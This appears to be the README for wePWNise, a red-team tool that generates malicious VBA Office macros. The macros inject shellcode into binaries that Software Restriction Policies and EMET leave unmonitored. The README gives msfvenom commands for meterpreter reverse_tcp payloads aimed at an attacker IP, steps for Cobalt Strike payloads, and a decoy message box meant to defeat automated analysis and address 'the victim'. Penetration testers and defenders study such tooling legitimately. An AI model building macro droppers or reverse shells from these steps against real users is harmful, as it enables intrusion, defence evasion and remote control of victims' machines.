 # wePWNise

wePWNise is proof-of-concept Python script which generates VBA code that can be used in Office macros or templates. It was designed with automation and integration in mind, targeting locked down environment scenarios. The tool enumerates Software Restriction Policies (SRPs) and EMET mitigations and dynamically identifies safe binaries to inject payloads into. wePWNise integrates with existing exploitation frameworks (e.g. Metasploit, Cobalt Strike) and it also accepts any custom payload in raw format.

## Prerequisites

* Python termcolor package. To install run: pip install termcolor

## Command line arguments

To start using wePWNise, first take a look at the options it supports:

```
usage: wepwnise.py [-h] -i86 <x86_shellcode> -i64 <x64_shellcode> [--inject64]   
                   [--out <output_file>] [--msgbox] [--msg <window_message>]

optional arguments:   
  -h, --help            show this help message and exit   
  -i86 <x86_shellcode>  Input x86 raw shellcode   
  -i64 <x64_shellcode>  Input x64 raw shellcode   
  --inject64            Inject into 64 Bit. Set to False when delivering x86   
                        payloads only. Default is True   
  --out <output_file>   File to output the VBA macro to   
  --msgbox              Present messagebox to prevent automated analysis.   
                        Default is True.   
  --msg <window_message>   
                        Custom message to present the victim if --msgbox is   
                        set to True
```

wePWNise requires both 32 and 64 bit raw payloads in order to be able to deliver the appropriate type when it lands on an unknown target. However, if only an x86 architecture is targeted, a dummy 64 bit payload must be provided to replace the missing code. 

In order to defeat certain automated analysis configurations, a message box opens upon execution of the code. The text of the message box can be altered by defining its value in the --msg parameter. To disable this functionality set the --msgbox parameter to False.

Due to performance conditions that may be introduced as a result of long SRPs/EMET policies, wePWNise reads two configuration files (binary-paths.txt and directory-paths.txt) that contain a list of executables and directories which are less likely to be monitored to be checked first. By editing the contents of those files the user can define their own choices instead. If the files are empty, wePWNise will directly start reading the SPRs/EMET policies as these would be defined within the Registry and make its injection choice purely based on the retrieved information.


## Usage examples

The following sections describe some basic usage examples of wePWNise.

### Metasploit payloads

First the payloads for both x86 and x64 architectures in raw format and ensure that the Metasploit listeners are configured appropriately.

`$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -o /payloads/msf86.raw`   
`$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -a x86_64 -o /payloads/msf64.raw`

Then point wePWNise to the generated payloads and direct the output to msf_wepwn.txt

`$ wepwnise.py -i86 /payloads/msf86.raw  -i64 /payloads/msf64.raw --out /payloads/msf_wepwn.txt`

### Cobalt Strike payloads

To generate a raw payload in Cobalt Strike, navigate to the following menu and from the Output dropdown select the Raw format. Repeat the process and enable the x64 checkbox to produce a 64-bit payload.

Attacks > Packages > Payload Generator

Enter the generated payloads into wePWNise to generate the VBA code.

`$ wepwnise.py -i86 /payloads/cs86.raw  -i64 /payloads/cs64.raw  --msgbox False --out /payloads/cs_wepwn.txt`


### Custom payloads

In certain cases it may be the case that only an x86 payload be available. As wePWNise expects both a 32-bit and 64-bit payloads, in order to disable 64-bit injection create a dummy 64-bit file and set the --inject64 parameter to False.

```
$ echo "+" > /payloads/dummy64.raw
$ wepwnise.py -i86 /payloads/custom.raw  -i64 /payloads/dummy64.raw --inject64 False --out /payloads/wepwn86.txt
```

Similarly, to generate 64-bit payloads only, create a dummy x86 file and supply it in wePWNise's -i86 command line paramenter.

## License

wePWNise is released under a 3-clause BSD License and maintained by [MWR InfoSecurity](https://mwrinfosecurity.com)

## Credits
This tool was originally developed by Vincent Yiu ([@vysecurity](https://twitter.com/vysecurity)).
